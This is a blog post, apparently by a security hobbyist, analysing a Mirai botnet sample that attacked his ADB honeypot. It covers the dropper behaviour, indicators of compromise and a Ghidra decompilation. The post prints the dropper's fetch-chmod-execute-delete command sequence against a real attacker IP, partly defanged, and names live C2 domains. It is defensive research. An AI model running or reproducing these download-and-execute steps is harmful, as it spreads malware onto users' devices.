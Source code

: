 ```yaml
---
slug: mirai
title: Analysis of Mirai Malware
authors: nathan
tags: [honeypot, reversing, malware]
sidebar_position: 1
image: https://m.media-amazon.com/images/I/41ZJaKEDzNL._AC_SX355_.jpg
---
```


## Intro 
I recently found out Google Cloud offers $300 for first time users, so I figured what better way to spend that than deploying a honeypot? While this blog post won't go into detail on deploying one yourself (keep at eye on my [docs](/docs/welcome) for a that) it will go into detail analyzing a malware sample that I discovered being deployed against it.

<!--truncate-->

## Timeline and Recon
On January 4th 2022 at ~20:30 UTC my honeypot deployed in Oregon was attacked by 205.185.123.62 hosted in [Las Vegas, Nevada.](https://www.iplocationtools.com/205.185.123.62)  It's hosted by "Frantech Solutions" which a cursoury google search gives results such as "FranTech Solutions is **a high fraud risk ISP**.." and [scamalytics](https://scamalytics.com/ip/isp/frantech-solutions) gives it a score of 64.

My honeypot was attacked a total of 24 times from this IP address. Starting at 20:30 UTC and ending at 11:00 UTC. 

## Attack Vector
This attack was caught by the [ADBHoney](https://github.com/huuck/ADBHoney) service running on my honeypot. ADBHoney describes itself as a "Low interaction honeypot designed for Android Debug Bridge over TCP/IP." Now I have some experience with ADB in a prior CTF so I understood a small bit of what this honeypot does. ADB is the Andriod Debug Bridge. It's essentially a protocol/tool that allows developers to communicate with andriod devices. It's used prominately in the emulation part of Andriod Studio. Unfortunately for us, the TCP section of the ADB protocol **does not** have any kind of authentication, leaving it open to attacks. This is what the honeypot sets up to gather samples.

## Payload

![image](/img/mirai/initial_payload.png)
*Figure 1: Inital Attack*

As we can see in Figure 1, the inital attack involves moving into the tmp directory, using [busybox](https://busybox.net/) to execute wget to get another sample and executes it. It repeats this twice, opting for curl for the second sample. Switching tools like that is common in malware droppers, allowing it to be ran on more hosts. A potential target could be missing either curl or wget, but missing both would be unlikely. Both **w.sh** and **c.sh** are essentially the same file as seen below. The only difference being what tool is used to download the next stage.


![image](/img/mirai/wget.png)
*Figure 2: wget method*

![image](/img/mirai/curl.png)
*Figure 3: curl method*

Here we can see how the actual malware sample is being downloaded. What makes this particular malware sample interesting is how it has different exectuables for a large set of instruction sets, ranging from ARM to SH4 to MIPS and even sparc. The first part of each line is downloading the malware `curl htt[p]s://209.141.33.122/arm`, then setting it as executable `chmod 777 arm`, then executing it with the argument of "android" `./arm android`. The final part of the script `rm $0` is deleting the script that was just ran in an effort to evade analysis. 

## Detection Rate and VirusTotal

Uploading the MIPS sample to [VirusTotal](https://www.virustotal.com/gui/file/10a5fabf1847feb44437827b040f707b432b3cc93167720fe9879ca33477d5c1/detection) gives it a detection ratio of 36/56 and most AV vendors classify this sample as belonging to the [Mirai](https://en.wikipedia.org/wiki/Mirai_(malware)) botnet. It was first seen on December 29th, 2021.  

VirusTotal Link: https://www.virustotal.com/gui/file/10a5fabf1847feb44437827b040f707b432b3cc93167720fe9879ca33477d5c1/detection  

## IOCs
If you see network activity to these IPs/Domains or system activity relating to them, you might be infected.  
IPs: 209.141.33.122  
Domains: bots1.firewalla1337.cc, scan1.firewalla1337.cc  
System Activity: Creation of binaries in `/data/local/tmp` with the names of common instruction sets. Execution of binaries with the argument of `android`.  
## Analysis

Note: My reversing skills are still in its infancy, so please bear with me.

The first thing I did to this binary was run strings against it. This gave me some interesting findings seen below:

### Strings
`/dev/null`  
`POST /cdn-cgi/`   
`HTTP/1.1\r\nUser-Agent:`   
`\r\nHost:`   
`Cookie: `    
`bots1.firewalla1337.cc`   
`209.141.33.122`   
`abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ012345678`   
`dadlcldadg`    
`scan1.firewalla1337.cc`    

Lets open this sample in ghidra and look into it a bit further.

The only function I could make sense of was what to me looks like a domain resolution function here:
```c
void FUN_00410544(void)

{
  byte *pbVar1;
  uint uVar2;
  undefined2 *puVar3;
  int iVar4;
  
  pbVar1 = (byte *)FUN_00411908("bot[s]1.firewalla1337.cc");
  if (pbVar1 != (byte *)0x0) {
    iVar4 = *(int *)(pbVar1 + 4);
    uVar2 = FUN_00411518();
    if (*pbVar1 == 0) {
      trap(0x1c00);
    }
    DAT_0045d784 = *(undefined4 *)((uVar2 % (uint)*pbVar1) * 4 + iVar4);
    FUN_0041189c(pbVar1);
    FUN_00414e24(1);
    puVar3 = (undefined2 *)FUN_00414d0c(1,0);
    DAT_0045d782 = *puVar3;
                    /* WARNING: Could not recover jumptable at 0x00410634. Too many branches */
                    /* WARNING: Treating indirect jump as call */
    FUN_00414d40(1);
    return;
  }
  DAT_0045d784 = FUN_00417c20("209.1[4]1.33.122");
  return;
}
```
*Brackets in IP address and Domain added by myself*

Both the domain name and IP address are hardcoded, but these are both the same address of the machine where the attack originated from meaning we dont have the C2's address.

There are references to POSTs and setting URL variables in the malware which tells me that's most likely the way communication is handled between the C2 and the bots.  

## Closing Thoughts

Unfortunately this is the extent of my analysis of this sample. My reversing skills arent where they should be in order to properly reverse this sample. I would try dynamic analysis and see what domains/IPs this sample tries to contact, but the x86 version was not available and I do not have any spare system capable of executing the other instruction sets besides my Raspberry Pi4s, so lookout for a potential part 2 of this post where I execute the malware in a lab environment.

Thank you so much for reading this post. I learned a lot while investigating this sample and hopefully you learned something new reading this blog post. I hope to post more about my activities with my honeypot so keep an eye out for those posts when they drop.   

As always, if you have any feedback please don't hesitate to contact me at [my email.](mailto:nathan@nburns.tech?Subject=Reverse_Blogpost)

Nathan Burns
